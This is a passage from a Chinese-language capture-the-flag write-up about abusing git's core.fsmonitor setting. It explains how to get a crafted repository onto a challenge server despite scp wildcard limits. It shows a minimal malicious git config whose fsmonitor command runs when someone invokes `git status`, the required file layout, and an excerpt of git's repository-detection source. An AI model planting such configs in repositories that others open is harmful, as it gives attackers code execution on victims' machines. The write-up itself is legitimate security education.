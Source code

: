找到這邊好像有滿完整的解釋：[2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md)，不過有點長我還沒看就是了。

總之，如果把 gitconfig 換成上面這個內容，再用 `git status` 的話，就會執行 fsmonitor 後面的指令。

但這題的難處不是這個，而是在於你該怎麼樣把一個 git repo 丟到 chall server 上面去。

當你用 `git init` 以後，資料夾會多出一個 `.git` 資料夾，裡面有：

1. HEAD
2. config
3. description
4. hooks/
5. info/
6. objects/
7. refs/

但 scp 時的指令是 `server:*`，所以：

1. . 開頭的隱藏檔案不會配對到
2. 資料夾不會抓下來，因為沒有用 -r

跟隊友研究了好一陣子，我發現調整一下 config 的話可以縮減到只需要四個檔案，然後也不需要 `.git` 資料夾：

```
[core]
    repositoryformatversion = 0
    bare = false
    worktree = ./
    fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```

檔案結構如下：

```
drwxr-xr-x  6 huli  staff  192  6 14 22:00 .
drwxr-xr-x  3 huli  staff   96  6 14 21:57 ..
-rw-r--r--  1 huli  staff   23  6 14 21:57 HEAD
-rw-r--r--  1 huli  staff  115  6 14 21:59 config
drwxr-xr-x  4 huli  staff  128  6 14 21:57 objects
drwxr-xr-x  4 huli  staff  128  6 14 21:57 refs
```

在底下的資料夾執行 `git status` 就會跑 fsmonitor 的指令了。

但是 objects 跟 refs 這兩個資料夾必須存在，我有試圖用檔案來取代但是檢查過不了，後來還跑去翻 git 原始碼，看它到底怎麼檢查的，相關程式碼在這：

https://github.com/git/git/blob/master/setup.c#L341

``` c
/*
 * Test if it looks like we're at a git directory.
 * We want to see:
 *
 *  - either an objects/ directory _or_ the proper
 *    GIT_OBJECT_DIRECTORY environment variable
 *  - a refs/ directory
 *  - either a HEAD symlink or a HEAD file that is formatted as
 *    a proper "ref:", or a regular file HEAD that has a properly
 *    formatted sha1 object name.
 */
int is_git_directory(const char *suspect)
{
	struct strbuf path = STRBUF_INIT;
	int ret = 0;
	size_t len;

	/* Check worktree-related signatures */
	strbuf_addstr(&path, suspect);
	strbuf_complete(&path, '/');
```